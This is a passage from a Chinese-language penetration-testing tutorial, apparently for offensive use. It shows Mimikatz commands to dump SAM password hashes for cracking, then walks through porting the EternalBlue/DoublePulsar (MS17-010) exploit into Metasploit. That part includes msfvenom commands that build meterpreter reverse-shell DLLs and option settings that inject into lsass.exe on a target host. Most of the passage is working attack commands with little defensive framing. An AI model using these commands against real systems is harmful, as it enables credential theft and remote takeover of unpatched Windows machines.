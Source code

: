 抓取Hash：

```
mimikatz_command -f samdump:: #试探samdump可用选项
mimikatz_command -f samdump::hashes
```

抓取Hash后CMD5解密即可。

Mimikatz的其他功能：

查看系统进程，handle可list/kill：

```
mimikatz_command -f handle::list
```

查看系统服务，service模块可list/start/stop/remove：

```
mimikatz_command -f service::list
```

查看系统证书，crypto模块可list/export：

```
mimikatz_command -f crypto::listProviders
```

## Exploit移植

示例：MS17-010永恒之蓝在Metasploiit上已经集成，但不支持Win2003，Github上下载：https://github.com/Telefonica/Eternalblue-Doublepulsar-Metasploit

Ruby脚本存放位置：/usr/share/metasploit-framework/modules/exploits/windows/smb

在MSF下重新加载所有文件：

```
reload_all
```

加载该模块：

```
search eternalblue-doublepulsar
use exploit/windows/smb/eternalblue_doublepulsar
```

攻击前先生成个DLL，目标机架构32位就生成32位的DLL，64位就64位DLL。用Msfvenom生成：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.31.247 lport=4444 -f dll -o ~/eternal11.dll #64位
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.19.186.17 -f dll -o ~/eternal11.dll #32位
```

按照实际设置参数：

```
set processinject lsass.exe
set rhost 192.168.12.108
set targetarchitecture x86
set winepath /root/.wine/drive_c #默认DLL生成文件夹，可改
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.12.110
set lport 4444 #不可改
set target 9
```
